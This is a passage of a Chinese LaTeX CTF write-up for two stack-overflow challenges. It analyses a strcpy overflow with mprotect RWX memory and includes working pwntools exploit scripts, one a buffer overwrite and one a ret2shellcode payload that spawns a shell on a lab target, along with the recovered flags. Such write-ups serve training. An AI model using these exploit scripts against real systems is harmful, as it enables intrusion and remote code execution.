    
\includegraphics[width=0.95\textwidth]{3.2.png}
    \caption{题目页面创建实例}
\end{figure}

    \item 编写Python脚本，利用pwntools库实现栈溢出Payload的自动构造与发送：
    \begin{lstlisting}[language=python]
from pwn import *
context.arch='amd64'
context.log_level='debug'

# 连接靶机
r = remote('10.249.14.223', 32847)

# 等待程序提示
r.recvuntil(b'special:')

# 构造Payload：覆盖缓冲区，满足双重校验条件
r.send(b'a'*0x10 + b'lalalalahahahaha' + p64(0) + p32(0) + p32(0xdeadbeef))

# 进入交互式Shell
r.interactive()
    \end{lstlisting}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{3.3.png}
    \caption{编写Python栈溢出脚本solve.py}
\end{figure}

    \item 在WSL终端运行脚本，成功触发栈溢出并获取系统Shell，执行\texttt{cat flag}命令读取最终Flag：
    \begin{lstlisting}[language=bash]
python3 solve.py
cat flag
    \end{lstlisting}
\end{enumerate}

\subsection{最终Flag}
\begin{center}
    \Large flag\{tRUe\_VI5lOn\_sEEM\_70\_c0ME\_t0\_the\_5tAcK\}
\end{center}

\newpage

% --------------------- PWN 题目：习题-ret2shellcode
\section{题目：习题-ret2shellcode}
\subsection{题目分析}
本题是典型的 \texttt{ret2shellcode} 栈溢出利用题，核心考点为：
\begin{enumerate}[leftmargin=*]
    \item 程序通过 \texttt{strcpy} 实现无边界拷贝，存在缓冲区溢出漏洞；
    \item 程序内置 \texttt{mprotect} 调用，将 \texttt{magic\_addr} 所在BSS段修改为可读、可写、可执行（RWX）权限；
    \item 攻击者可将shellcode写入可执行内存，通过溢出控制返回地址，跳转到shellcode执行并获取系统Shell。
\end{enumerate}

\subsection{解题步骤}
\begin{enumerate}
    \item 下载题目附件\texttt{chal.zip}，解压得到可执行文件\texttt{pwn}。
    使用\texttt{strings}命令分析程序中的关键函数与符号：
    \begin{lstlisting}[language=bash]
strings pwn
    \end{lstlisting}
    结果显示程序包含 \texttt{read、strcpy、mprotect} 及 \texttt{magic\_addr}，确定为 \texttt{ret2shellcode} 题型。

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{5.1.png}
    \caption{使用strings命令分析程序，获取关键函数与符号}
\end{figure}

    \item 使用 IDA Pro 反汇编查看 \texttt{main} 函数逻辑：
    程序流程：\texttt{read 读取输入 → strcpy 拷贝到 magic\_addr → mprotect 设置可执行权限 → 函数返回}。
    可直接将shellcode写入可执行内存并通过栈溢出跳转执行。

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{5.2.png}
    \caption{IDA Pro反汇编main函数，分析漏洞与执行流程}
\end{figure}

    \item 使用命令获取 \texttt{magic\_addr} 真实地址：
    \begin{lstlisting}[language=bash]
nm ./pwn | grep magic_addr
    \end{lstlisting}
    得到可执行内存地址：\texttt{0x404080}。

    \item 创建题目实例，获取靶机地址与端口：\texttt{10.249.14.223:32882}。

    \item 编写Python攻击脚本 \texttt{exp.py}：
    \begin{lstlisting}[language=python]
from pwn import *

# 64位环境配置
context(arch='amd64', os='linux', log_level='info')

# 关键地址与偏移
magic_addr = 0x404080
offset = 0x108

# 连接靶机
p = remote('10.249.14.223', 32882)

# 生成shellcode
shellcode = asm(shellcraft.sh())

# 构造payload
payload = shellcode
payload += b'A' * (offset - len(shellcode))
payload += p64(magic_addr)

# 发送并交互
p.sendlineafter(b'Give me something special:', payload)
p.interactive()
    \end{lstlisting}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{5.3.png}
    \caption{编写并运行ret2shellcode攻击脚本}
\end{figure}

    \item 运行EXP获取Shell并读取Flag：
    \begin{lstlisting}[language=bash]
python3 exp.py
cat flag
    \end{lstlisting}
\end{enumerate}

\subsection{最终Flag}
\begin{center}
    \footnotesize\ttfamily flag\{5HeI1C0d3\_l5\_a\_5MaIL\_p1ecE\_of\_maCh1NE\_c0dE\_u5ed\_aS\_4\_p4YL0AD\_1N\_sOFtw4RE\_EXPIOIT47I0n\}
\end{center}

\end{document}